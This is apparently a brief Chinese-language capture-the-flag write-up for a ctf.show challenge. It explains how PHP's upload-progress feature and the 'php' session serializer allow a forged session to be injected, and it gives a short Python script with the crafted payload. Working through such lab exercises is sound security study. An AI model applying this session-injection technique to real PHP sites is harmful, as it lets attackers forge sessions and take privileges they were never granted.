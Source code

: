 # PHP Session伪造
	- 题目需要伪造Session获得flag, 源码中有``ini_set('session.serialize_handler', 'php');``且设置了``PHP_SESSION_UPLOAD_PROGRESS``可以用于伪造Session
	- 直接搓一个Session传上去即可
	- ```python
	  url = "http://8d19437b-38da-4db2-89bf-f1e764786712.challenge.ctf.show/"
	  
	  base_post(url, data={"name": "114"}, cookies={"PHPSESSID": "test"})
	  
	  r = base_post(
	      url,
	      data={
	          "PHP_SESSION_UPLOAD_PROGRESS": '2|s:1:"2";name|s:3:"114";win|i:114;',
	          "flag": "1",
	      },
	      files={"file": ("a", "a")},
	      cookies={"PHPSESSID": "test"},
	  )
	  
	  print(r.text)
	  ```